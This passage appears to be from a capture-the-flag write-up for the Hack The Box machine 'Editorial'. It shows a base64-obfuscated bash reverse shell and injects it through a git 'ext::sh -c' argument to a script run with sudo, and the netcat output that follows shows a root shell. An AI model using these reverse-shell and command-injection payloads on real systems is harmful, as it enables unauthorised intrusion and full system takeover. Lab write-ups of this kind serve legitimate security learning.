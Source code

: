 Craft reverse shell payload

```bash
┌──(bravosec㉿fsociety)-[~/htb/Editorial]
└─$ echo "echo $(echo "bash -i >& /dev/tcp/$(pt get lhost)/1111 0>&1"|base64 -w0)|base64 -d|/bin/bash"
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNy8xMTExIDA+JjEK|base64 -d|/bin/bash
```

- `%` is required before any spaces in command

```bash
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c echo% YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNy8xMTExIDA+JjEK|base64% -d|/bin/bash"
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Editorial]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.17] from (UNKNOWN) [10.129.46.43] 34834
root@editorial:/opt/internal_apps/clone_changes# id
id
uid=0(root) gid=0(root) groups=0(root)
```


# Additional
---
